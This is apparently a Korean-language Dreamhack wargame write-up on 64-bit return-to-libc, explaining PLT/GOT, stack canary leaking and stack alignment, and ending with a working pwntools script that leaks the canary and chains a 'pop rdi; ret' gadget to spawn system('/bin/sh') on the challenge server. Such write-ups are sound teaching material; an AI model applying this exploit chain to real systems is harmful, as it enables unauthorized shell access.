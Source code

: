 ```yaml
---
tags: [dreamhack, wargame, write-up]	
published : false	
---
```


@PLT

ELF 바이너리에서 외부 바이너리 함수(system, puts, printf 등)은 실행파일 안에 실제 코드가 없고, glibc 같은 외부에서 제공된다.

근데 어디 있는지는 런타임에만 알 수 있어서 아래와 같이 동작한다.

1. PLT : 실행파일에 고정된 점프 테이블
2. GOT (Global Offset Table) : 실제 함수 주소를 담는 테이블 (런타임에 채워짐)

```bash
main() → call system@plt
```

→ PLT → GOT (비어있음)
→ dynamic linker가 찾음
→ GOT에 진짜 system 주소 넣음
→ PLT → GOT (진짜 주소 있음)
→ system 함수 실행

![Image](/assets/img/rtl/image1.png)

![Image](/assets/img/rtl/image2.png)

![Image](/assets/img/rtl/image3.png)

카나리는 보통 스택 보호(stack canary) 기능의 일부인데, 이 값은 프로세스가 실행될 때마다 새로 생성된다. 즉, 카나리는 프로세스 단위로 고정된다.

해당 프로그램은 한 세션에서 두 번의 read를 사용하기 때문에 첫 read에서 canary의 값을 얻어내고, 두번째 read에서 해당 canary 값을 포함한 payload를 전송하여 return address를 system(/bin/sh) 주소로 변경시키면 되는 문제로 추정된다.

리턴주소를 조작해서 libc에 있는 함수(system 등)를 호출하는 기술을 RTL(Return to Libc)라고하는데, 

32bit 환경과 64bit 환경에서의 RTL은 차이가 있다.

32bit에서는 함수 인자를 스택에 push해서 전달한다.

ex)

```bash
payload = b"A"*offset
payload += p32(system_addr)
payload += p32(exit_addr)         # system 끝나고 exit 호출할 주소
payload += p32(binsh_addr)        # system의 인자
```

64bit에서는 인자를 스택이 아닌 레지스터로 전달한다.

ex)

```bash
payload = b"A"*offset
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
```

단순히 RET를 덮는 것 만으로는 안 되고, system()을 호출하기 전에 RDI에 우리가 원하는 값을 직접 넣어줘야 한다.

그래서 필요한 게 바로 ROP 가젯(pop rdi; ret)이다.

해당 문제는 64bit환경이다.

따라서 우리가 알아내야 할 정보는 system() 주소, binsh 문자열 주소, ROP 가젯, canary 이다.

1. system()

![Image](/assets/img/rtl/image4.png)

system 함수의 PLT , GOT 주소는 위와 같이 찾을 수 있다.

우리는 PLT 주소를 사용할 것이기 때문에 필요한 값은 “0x4005d0”이다.

1. binsh

![Image](/assets/img/rtl/image5.png)

pwndbg의 search 명령어를 사용하면 binsh의 주소가 3개 뜨는데, system 함수의 경우 인자로 문자열의 주소를 필요로 하기 때문에 우리에게 필요한 주소는 “0x400874”가 된다.

1. canary

![Image](/assets/img/rtl/image6.png)

buf부터 rbp까지의 거리: 0x40

buf부터 canary까지의 거리: 0x40-0x08 = 0x38

1. ROP gadget

```bash
ROPgadget --binary ./rtl | grep "pop rdi"
```

![Image](/assets/img/rtl/image7.png)

ROP 가젯 : 0x0000000000400853

그리고 여기에 추가적으로,

현재 버퍼를 오버플로우 시켜서 → 카나리 덮고 → SFP 덮고 → 리턴주소를 덮는 과정에서 우리가 덮는 리턴 주소 때문에 스택 포인터(rsp)가 8바이트 밀리는 현상이 발생할 수 있다.

그런데 system()이나 puts() 같은 함수들은 내부적으로 SSE 명령어 등 16바이트 정렬이 필요한 명령어를 쓰는 경우가 있다.

따라서 system() 호출 직전에 ret 가젯을 추가해서 현재 깨져있는 rsp를 +8 올려서 정렬을 맞춰줘야 한다.

1. ret

```bash
ROPgadget --binary ./rtl | grep "ret$"
```

![Image](/assets/img/rtl/image8.png)

```bash
from pwn import *

p = remote('host3.dreamhack.games', 15020)

pop_rdi_ret = 0x400853
bin_sh_addr = 0x400874
system_plt = 0x4005d0
ret = 0x400596

payload = b'A'*0x39
p.sendafter(b'Buf: ',payload)
p.recvuntil(payload)

canary = u64(p.recv(7).rjust(8, b"\x00"))
print('canary', hex(canary))

payload = b'A'*0x38
payload += p64(canary)
payload += b'B'*8
payload += p64(pop_rdi_ret)
payload += p64(bin_sh_addr)
payload += p64(ret)
payload += p64(system_plt)

p.sendafter(b'Buf: ', payload)
p.interactive()
```

![Image](/assets/img/rtl/image9.png)